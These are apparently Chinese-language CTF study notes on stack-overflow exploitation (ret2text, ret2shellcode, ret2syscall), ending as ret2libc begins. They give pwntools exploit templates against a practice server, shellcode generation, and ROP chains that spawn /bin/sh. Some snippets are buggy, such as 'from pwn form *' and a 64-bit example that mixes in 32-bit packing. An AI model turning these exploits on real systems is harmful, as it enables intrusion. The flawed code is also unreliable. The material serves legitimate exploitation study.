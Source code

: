 # ret2text

大多数pwn题的ELF都是动态链接的

```c
#include<stdio.h>
int main(){
	char str[8];
  gets(str);	//由于gets函数缺陷，可以输入超出缓冲区的数据大小，进而覆盖掉返回地址
  return 0;
}
```

gets() 函数的缺陷：

​	它不提供对缓冲区大小的检查，因此容易导致缓冲区溢出，这是一种常见的安全漏洞。攻击者可以利用这种漏洞来执行恶意代码或破坏程序的行为。gets() 函数不会在读取到换行符之前停止读取，这可能导致它读取超出目标缓冲区大小的数据，造成缓冲区溢出。

read() 函数的缺陷：

​	read() 函数通常用于低级I/O操作，它不会对输入数据进行解释或处理，因此可能导致缓冲区溢出或其他安全问题。就像 gets() 一样，如果使用不当，read() 也可能导致缓冲区溢出。read() 函数需要手动指定要读取的字节数，如果不小心指定了一个超过目标缓冲区大小的字节数，也可能导致缓冲区溢出。

## 简单栈溢出编写

```python
from pwn form *
#p = process('./pwn')
p = remote('node.buuoj.cn',8888)
payload = b'A'*8 + p64(0x12345678)
p.sendline(payload)
p.interactive()
```

# ret2shellcode

在 pwntools 中，shellcraft 模块用于生成各种类型的 shellcode，例如反弹 shell、执行系统调用等。shellcraft.sh 脚本通常是 pwntools 的一部分，用于生成 shellcode 的脚本，它包含了一系列的 shellcode 模板，可以根据需要生成对应的 shellcode，并且可以方便地嵌入到漏洞利用脚本中。

## shellcraft模块生成

<img src="../image/image-20240428153225871.png" alt="image-20240428153225871" style="zoom:67%;" />

```python
shellcraft.sh()	#默认生成的shellcode是32位的
shellcraft.amd64.sh()	#生成64位的
p.sendline(asm(shellcraft.sh()))	#把shellcode转成机器码

shellcode = asm(shellcraft.sh())
shellcode = shellcode.ljust(120,b'a')
```

一般来说，靶机基本都开启了ALSR，所以不会对栈写入shellcode，

# ret2syscall

## 第一种情况

当存在system函数，但是没有要执行的命令，刚好存在字符串"/bin/sh"的地址

32位

```python
from pwn form *
context(os='linux',arch='i386',log_level='debug')
#p = process('./pwn')
p = remote('node.buuoj.cn',8888)
system_addr = 0x12345678
bin_sh = 0x12345678
payload = b'A'*8 + p32(system_addr) + p32(0) + p32(bin_sh)	#中间需要加一个p32(任意地址)，32位调用完函数之后，后面都要跟一个返回地址，要符合函数调用约定
p.sendline(payload)
p.interactive()
```

64位

由于64传递参数，会先用6个寄存器传参，往后才使用栈传递参数，所以需要用简单的ROP来构造"/bin/sh"

```python
#使用ROPgadget来获取pop rdi + ret 的地址
ROPgadget --binary pwn --only "pop|rdi|ret"

from pwn form *
context(os='linux',arch='i386',log_level='debug')
#p = process('./pwn')
p = remote('node.buuoj.cn',8888)
system_addr = 0x12345678
bin_sh = 0x12345678
pop_rdi = 0x12345678
payload = b'A'*8 + p32(pop_rdi) + p32(bin_sh) + p32(system_addr)
p.sendline(payload)
p.interactive()
```

## 第二种情况

前置知识

当没有system函数，也没有"/bin/sh"，我们就需要自己使用ROPgadget构造一个后面函数

所以操作系统的内核函数，想要调用需要通过寄存器传入代号，当要执行int 0x80的这个汇编代码时，我们要确保，寄存器已经传入了对应的参数

sys_execve()

> eax=0xb	ebx=0x8048xxx	ecx=0	edx=0

sys_

```shell
#安装ROPgadget
python -m pip install ROPgadget
#在程序的.text段中寻找，可以组成payload的函数
ROPgadget --binary pwn --only "pop|ret"
```

前提是可以使用栈溢出，且可执行文件中没有后门函数，payload在栈中的结构如下

|          int 0x80           |
| :-------------------------: |
|           /bin/sh           |
|              0              |
|              0              |
| pop edx,pop ecx,pop ebx,ret |
|             0xb             |
|         pop eax,ret         |

exp编写

```python
from pwn import *
elf = ELF('./pwn')
sh_addr = hex(elf.search(b'/bin/sh'))	#在ELF中查找'/bin/sh'的字符串地址

#p = remote('node.buuoj.cn',8888)
p = process('./pwn')

pop_eax = 0x12345678
pop_edx_ecx_ebx = 0x12345678
int_80 = 0x12345678
#bin_sh = 0x12345678 当ELF中存在，可直接调用
payload = b'A'*0x60 + p64(pop_eax) + p64(0xb) + p64(pop_edx_ecx_ebx) + p64(0) + p64(0) + p64(sh_addr) + p64(int_80)
p.sendline(payload)
p.interactive()
```

# ret2libc

前置知识，了解ELF执行后，第一次调用函数，会实现一个延迟绑定

